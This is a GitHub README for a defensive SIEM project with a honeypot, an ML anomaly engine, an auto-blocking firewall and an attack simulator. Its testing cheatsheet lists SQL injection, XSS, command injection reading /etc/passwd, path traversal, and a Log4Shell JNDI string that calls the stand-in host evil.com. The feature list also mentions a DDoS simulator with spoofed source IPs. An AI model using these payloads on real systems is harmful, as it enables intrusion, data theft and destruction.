

<div align="center">


<p>
  
  
  
  
</p>

<p>
  
  
  
  
</p>

<br/>

> **Experience the future of security monitoring with our intuitive, real-time SOC dashboard.**

<div style="display: flex; justify-content: center; gap: 10px; margin: 15px 0;">
  
  
  
</div>

> **A full-stack Enterprise SIEM system with real-time threat detection, AI-powered anomaly analysis, an automated firewall, and a cinematic SOC dashboard — engineered for defensive security research.**

<br/>

</div>

---

## 🗺️ System Architecture



---

## ✨ Features

<table>
<tr>
<td width="50%">

### Detection Engine
- **8 Attack Vectors** — SQL Injection, XSS, Command Injection, Path Traversal, SSRF, Log4Shell, XXE, Brute Force
- **Honeypot Traps** — 6 fake endpoints that auto-block any attacker who probes them (`/.env`, `/phpmyadmin`, `/admin_bypass`...)
- **Signature + AI hybrid** — pattern matching layered with ML anomaly scoring

</td>
<td width="50%">

### AI Anomaly Engine
- **IsolationForest ML model** — trained on live session data
- **3-feature analysis** — risk score, threat flag, payload length
- **Rate-based detection** — 25 req/min threshold per IP
- **Synthetic baseline training** — works on fresh install with no prior data

</td>
</tr>
<tr>
<td width="50%">

### SOAR Firewall
- **Auto-block** on CRITICAL threats
- **System Lockdown** when threat score ≥ 90
- **Persistent blocklist** — survives restarts (`banned_ips.json`)
- **Manual block/unblock** from SOC dashboard
- **One-click restore** — lifts lockdown instantly

</td>
<td width="50%">

### SOC Dashboard
- **Real-time traffic chart** — threats vs safe, live line chart
- **World map** — animated attack origin dots on geo-accurate map
- **Toast notifications** — instant threat popups on new events
- **Analytics tab** — attack type donut chart, severity bar chart
- **CSV/JSON export** — download session logs for forensics

</td>
</tr>
<tr>
<td width="50%">

### Website Integration
- **WSGI middleware** — one-line integration into any Flask/Django app
- **Non-blocking** — background threads, zero latency impact
- **Built-in demo site** — test attacks on a live simulated website
- **POST body scanning** — form data and JSON payloads analyzed

</td>
<td width="50%">

### Attack Simulator
- **Injection Tool** — SQL, XSS, Log4Shell, Path Traversal payloads
- **Mass DDoS Botnet** — 30 concurrent threads with random IP spoofing
- **Safe Traffic Generator** — legitimate requests for baseline data
- **One-click launcher** — all simulators managed from `run.bat`

</td>
</tr>
</table>

---

## 🚀 Quick Start

### Prerequisites
```
Python 3.10+   (with "Add to PATH" checked during install)
Windows 10/11
```

### Installation

```bash
# 1. Clone the repository
git clone https://github.com/AbhaySinghTaknet/SENTINEL_SIEM.git
cd SENTINEL_SIEM

# 2. Run one-click setup (installs all dependencies)
setup.bat

# 3. Launch the system
run.bat
```

The dashboard opens automatically at `http://localhost:5000`.

---

## 🎛️ Control Panel (`run.bat`)

```
╔══════════════════════════════════════════════════════╗
║   SENTINEL SIEM  |  Control Panel                    ║
╠══════════════════════════════════════════════════════╣
║                                                      ║
║   [1]  Start SENTINEL SIEM System                    ║
║   [2]  Launch Attack Simulator                       ║
║   [3]  Launch Demo Website  (port 5050)              ║
║   [4]  Stop All  (close everything)                  ║
║   [5]  Exit                                          ║
║                                                      ║
╚══════════════════════════════════════════════════════╝
```

| Option | Description |
|--------|-------------|
| **1 — Start System** | Launches main server (5000) + Client Portal (5001), opens dashboard in browser |
| **2 — Attack Simulator** | Sub-menu for injection attacks, mass DDoS, safe traffic generator |
| **3 — Demo Website** | Starts a simulated website on port 5050 for integration testing |
| **4 — Stop All** | Kills all Python processes, closes all terminals, releases ports 5000/5001/5050 |

---

## 🌐 Website Integration

### Method 1 — One-line Middleware (Recommended)
Drop this into any existing Flask project:

```python
from integration.sentinel_middleware import SentinelMiddleware

app = Flask(__name__)
# ... your existing code ...
app.wsgi_app = SentinelMiddleware(app.wsgi_app)  # One-line integration
```

### Method 2 — Built-in Demo Site
```
run.bat → [1] Start SENTINEL → [3] Launch Demo Website
```
Visit `http://localhost:5050` and try attacks in the login form.

### Method 3 — Direct API
```python
import requests

requests.post("http://localhost:5000/api/logs", json={
    "key": "SENTINEL-9921",
    "payload": user_input_to_scan
}, headers={"X-Forwarded-For": client_ip})
```

---

## 🍯 Honeypot Endpoints

Any request to these paths instantly blocks the source IP:

```
/phpmyadmin     /admin_bypass     /.env
/db_backup.zip  /secret_keys      /wp-admin
```

---

## 📡 API Reference

| Endpoint | Method | Description |
|----------|--------|-------------|
| `/` | GET | SOC Dashboard UI |
| `/api/logs` | GET | Fetch all logs (dashboard polling) |
| `/api/logs` | POST | Submit payload for analysis `{key, payload}` |
| `/api/get_stats` | GET | CPU/RAM/disk + threat counters |
| `/api/analytics` | GET | DB-level severity breakdown + hourly activity |
| `/api/block_ip` | POST | Manual IP block `{ip}` |
| `/api/unblock_ip` | POST | Manual IP unblock `{ip}` |
| `/api/restore_system` | POST | Lift lockdown, reset counters |
| `/api/export_csv` | GET | Download all logs as CSV |
| `/api/export_threats_csv` | GET | Download threats-only CSV |
| `/api/attack_stats` | GET | Attack type breakdown + session summary |
| `/api/clear_logs` | POST | Clear in-memory session logs |
| `/view_secrets` | GET | Vault access (sealed during lockdown) |

---

## 🗂️ Project Structure

```
SENTINEL_SIEM/
│
├── app.py                          # Main Flask server — all routes & logic
├── run.bat                         # One-click control panel (start/attack/stop)
├── setup.bat                       # One-click dependency installer
├── requirements.txt
│
├── core/
│   ├── ai_engine.py                # IsolationForest ML + rate limiting
│   ├── detection.py                # Signature-based threat detection (8 attack types)
│   ├── database.py                 # Thread-safe SQLite wrapper
│   ├── firewall.py                 # IP blocklist management (SOAR)
│   └── reporter.py                 # CSV/JSON export + analytics
│
├── templates/
│   └── dashboard.html              # SOC dashboard (pure HTML/CSS/JS)
│
├── attacks/
│   ├── injection_tool.py           # SQL + XSS + Honeypot simulator
│   ├── mass_attacker.py            # 30-thread DDoS botnet simulator
│   ├── safe_traffic_gen.py         # Legitimate traffic generator
│   └── safe_logs.py
│
├── integration/
│   ├── sentinel_middleware.py      # WSGI middleware for any Flask/Django site
│   └── example_site/
│       └── site_app.py             # Demo website (port 5050)
│
├── Client_Portal/                  # Simulated client-facing web portal
│   └── portal_app.py
│
├── images/                         # Dashboard screenshots
│   ├── screenshot1.png
│   └── screenshot2.png
│
├── logs/
│   ├── banned_ips.json             # Persistent IP blocklist
│   ├── threat_events.txt           # Flat log — threat events
│   └── safe_logs.txt               # Flat log — safe traffic
│
├── db/
│   └── sentinel.db                 # SQLite database (auto-created)
│
├── exports/                        # CSV/JSON reports (auto-generated)
│
└── userguide_and_research/         # User guides and research documents
    ├── userguide.pdf               # User guide for SENTINEL SIEM
    └── research_paper.pdf          # Research paper for SENTINEL SIEM
```

---

## 🧪 Attack Testing Cheatsheet

After launching the demo site (`run.bat → Option 3`), try these in the login form at `http://localhost:5050`:

```sql
-- SQL Injection
admin' OR '1'='1
' UNION SELECT null, null--
1; DROP TABLE users--

-- XSS
<script>alert('SENTINEL')</script>


-- Command Injection
admin; cat /etc/passwd
| whoami

-- Log4Shell (CRITICAL — instant lockdown)
${jndi:ldap://evil.com/exploit}

-- Path Traversal
../../../../etc/passwd
```

---

## 🔴 Lockdown Mode

When 5+ CRITICAL threats are detected, SENTINEL enters full lockdown:

```
⚠ SYSTEM LOCKDOWN ACTIVE
  Critical threat threshold exceeded.
  Vault access disabled. All unknown IPs denied.
                                    [ RESTORE ]
```

- Red banner appears across the entire dashboard
- `/view_secrets` vault is sealed — returns 403
- All subsequent unknown IPs are denied
- Click **RESTORE** or hit `run.bat → Option 4 (Stop All)` to recover

---

## 🛠️ Tech Stack

<div align="center">

| Layer | Technology |
|-------|-----------|
| **Backend** | Python 3.10+, Flask 2.3+ |
| **ML Engine** | scikit-learn (IsolationForest), NumPy, Pandas |
| **Database** | SQLite3 (thread-safe, WAL mode) |
| **Frontend** | Vanilla HTML/CSS/JS, Chart.js, TailwindCSS CDN |
| **System Metrics** | psutil |
| **HTTP Client** | requests |
| **Process Control** | Windows BAT + PowerShell |

</div>

---

<div align="center">

<!-- FOOTER WAVE -->


<br/>

**Built by Abhay Singh Taknet**

---

### Contact & Detailed Reading
📧 **Email:** abhaytaknet@gmail.com
🔗 **LinkedIn:** [www.linkedin.com/in/abhay-singh-551aa6325](www.linkedin.com/in/abhay-singh-551aa6325)
📄 **Research Paper:** [SENTINEL SIEM Research Paper](userguide_and_research/research_paper.pdf)
📖 **User Guide:** [SENTINEL SIEM User Guide](userguide_and_research/userguide.pdf)

</div>